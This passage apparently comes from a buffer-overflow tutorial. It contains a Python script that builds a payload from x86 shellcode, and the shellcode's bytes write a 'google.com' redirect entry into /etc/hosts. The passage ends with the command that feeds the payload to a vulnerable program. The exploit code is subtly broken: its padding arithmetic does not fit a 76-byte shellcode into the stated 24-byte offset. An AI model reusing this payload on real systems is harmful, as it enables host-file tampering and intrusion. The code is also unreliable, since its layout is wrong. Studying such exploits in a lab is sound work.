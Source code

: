 Now, let's create our exploit script:

```python
import struct

# Shellcode (paste the extracted shellcode here)
shellcode = b"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d"

# Buffer overflow parameters
buffer_size = 16
offset = 24  # 16 bytes buffer + 4 bytes saved EBP + 4 bytes alignment
return_address = struct.pack("<I", 0x0804842c)

# Construct the payload
payload = shellcode
payload += b"A" * (offset - len(shellcode))
payload += return_address

# Write payload to a file
with open("payload", "wb") as f:
    f.write(payload)

print("Exploit payload created successfully.")
```

Run the script:
```bash
python main.py
```

![](./images/Screenshot_6.png)

Explanation:
- We construct a payload that includes our shellcode, followed by padding to reach the return address
- The return address is overwritten with the address where our shellcode begins

Step 5: Run the exploit

Now we'll execute the vulnerable program with our payload:

```bash
./vuln.out $(cat payload)
```
